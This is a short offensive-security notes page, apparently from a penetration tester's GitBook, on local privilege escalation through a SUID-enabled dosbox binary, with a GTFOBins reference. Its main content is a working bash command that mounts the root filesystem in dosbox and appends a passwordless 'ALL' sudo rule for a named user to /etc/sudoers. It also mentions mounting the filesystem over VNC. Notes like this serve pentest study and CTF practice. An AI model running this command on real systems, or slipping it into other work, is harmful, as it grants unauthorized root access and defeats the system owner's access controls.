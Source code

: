 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Dosbox

The presence of `dosbox` with the SUID bit set allows privilege escalation via **file write abuse**. According to [GTFOBins](https://gtfobins.github.io/gtfobins/dosbox/#suid), `dosbox` can be used to **modify arbitrary files when executed as** `root` through SUID.

```bash
# Add a user to the sudoers group
LFILE='/etc/sudoers'
dosbox -c 'mount c /' -c "echo x7331 ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```

If **GUI-based access to the target** is available (e.g. via [VNC](../../../../../../services/tcp/remote-access/5900-vnc.md)) we can mount the filesystem:

<figure><img src="../../../../../../.gitbook/assets/nukem_vnc.png" alt=""><figcaption></figcaption></figure>
